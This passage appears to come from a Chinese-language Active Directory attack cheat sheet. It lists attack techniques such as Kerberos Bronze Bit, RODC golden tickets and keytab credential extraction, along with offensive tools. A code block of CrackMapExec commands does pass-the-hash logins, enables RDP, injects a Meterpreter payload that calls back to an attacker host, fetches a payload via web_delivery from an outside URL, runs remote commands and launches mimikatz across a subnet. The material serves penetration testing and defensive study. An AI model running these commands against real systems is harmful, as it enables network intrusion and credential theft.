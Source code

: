     - [S4U2self - 权限提升](#s4u2self---privilege-escalation)
  - [Kerberos Bronze Bit攻击 - CVE-2020-17049](#kerberos-bronze-bit-attack---cve-2020-17049)
  - [PrivExchange攻击](#privexchange-attack)
  - [SCCM部署](#sccm-deployment)
  - [SCCM网络访问账户](#sccm-network-access-accounts)
  - [SCCM共享](#sccm-shares)
  - [WSUS部署](#wsus-deployment)
  - [RODC - 只读域控制器](#rodc---read-only-domain-controller)
    - [RODC Golden Ticket](#rodc-golden-ticket)
    - [RODC密钥列表攻击](#rodc-key-list-attack)
    - [RODC计算机对象](#rodc-computer-object)
  - [PXE启动映像攻击](#pxe-boot-image-attack)
  - [DSRM凭据](#dsrm-credentials)
  - [DNS侦察](#dns-reconnaissance)
  - [LinuxAD域](#linux-active-directory)
    - [从/tmp重用CCACHE票证](#ccache-ticket-reuse-from-tmp)
    - [从keyring重用CCACHE票证](#ccache-ticket-reuse-from-keyring)
    - [从SSSD KCM重用CCACHE票证](#ccache-ticket-reuse-from-sssd-kcm)
    - [从keytab重用CCACHE票证](#ccache-ticket-reuse-from-keytab)
    - [从/etc/krb5.keytab提取账户](#extract-accounts-from-etckrb5keytab)
    - [从/etc/sssd/sssd.conf提取账户](#extract-accounts-from-etcsssdsssdconf)
  - [参考资料](#references)

## 工具

* [Impacket](https://github.com/CoreSecurity/impacket) 或 [Windows版本](https://github.com/maaaaz/impacket-examples-windows)
* [Responder](https://github.com/lgandx/Responder)
* [InveighZero](https://github.com/Kevin-Robertson/InveighZero)
* [Mimikatz](https://github.com/gentilkiwi/mimikatz)
* [Ranger](https://github.com/funkandwagnalls/ranger)
* [AdExplorer](https://docs.microsoft.com/en-us/sysinternals/downloads/adexplorer)
* [CrackMapExec](https://github.com/mpgn/CrackMapExec)

```powershell
# use the latest release, CME is now a binary packaged will all its dependencies
root@payload$ wget https://github.com/mpgn/CrackMapExec/releases/download/v5.0.1dev/cme-ubuntu-latest.zip

# execute cme (smb, winrm, mssql, ...)
root@payload$ cme smb -L
root@payload$ cme smb -M name_module -o VAR=DATA
root@payload$ cme smb 192.168.1.100 -u Administrator -H 5858d47a41e40b40f294b3100bea611f --local-auth
root@payload$ cme smb 192.168.1.100 -u Administrator -H 5858d47a41e40b40f294b3100bea611f --shares
root@payload$ cme smb 192.168.1.100 -u Administrator -H ':5858d47a41e40b40f294b3100bea611f' -d 'DOMAIN' -M invoke_sessiongopher
root@payload$ cme smb 192.168.1.100 -u Administrator -H 5858d47a41e40b40f294b3100bea611f -M rdp -o ACTION=enable
root@payload$ cme smb 192.168.1.100 -u Administrator -H 5858d47a41e40b40f294b3100bea611f -M metinject -o LHOST=192.168.1.63 LPORT=4443
root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" -M web_delivery -o URL="https://IP:PORT/posh-payload"
root@payload$ cme smb 192.168.1.100 -u Administrator -H ":5858d47a41e40b40f294b3100bea611f" --exec-method smbexec -X 'whoami'
root@payload$ cme smb 10.10.14.0/24 -u user -p 'Password' --local-auth -M mimikatz
root@payload$ cme mimikatz --server http --server-port 80
```

